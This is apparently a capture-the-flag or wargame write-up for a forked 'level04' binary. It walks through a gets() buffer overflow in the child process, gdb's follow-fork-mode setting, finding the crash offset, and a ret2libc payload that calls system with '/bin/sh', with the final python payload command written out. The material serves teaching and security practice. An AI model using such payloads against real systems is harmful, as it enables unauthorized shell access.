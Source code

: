 In this level, the program uses fork to create a child process and consists of 2 conditions, the first is executed by the child process and the second by the parent. the second condition has nothing interesting but in the first condition we have:

0x0804874b <+131>:	mov    DWORD PTR [esp],0x8048903 // "Give me some shellcode, k"
0x08048752 <+138>:	call   0x8048500 <puts@plt>
0x08048757 <+143>:	lea    eax,[esp+0x20]
0x0804875b <+147>:	mov    DWORD PTR [esp],eax
0x0804875e <+150>:	call   0x80484b0 <gets@plt> // we have here a buffer overflow candidate.

If we try testing and debugging with gdb, we won't get far since it doesn't follow the child process unless we set it with the command :

set follow-fork-mode child

now we can go through the first condition and see where the return address is overwritten by our payload:
our simple payload will be to test the buffer: 
aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZ


now when we follow the child process we see a segfault:

Program received signal SIGSEGV, Segmentation fault.
[Switching to process 2305]
0x4e4e4e4e in ?? () // 0x4e = 'N'

now a simple ret2libc is enough to open the shell,

p system
$1 = {<text variable, no debug info>} 0xf7e6aed0 <system>
find 0xf7e2c000,0xf7fcc000, "/bin/sh"
0xf7f897ec

that means our final payload will be:
python -c 'print("aaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzzAAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMM"+"\xd0\xae\xe6\xf7"+"0000"+"\xec\x97\xf8\xf7")' > payload
cat payload - | ./level04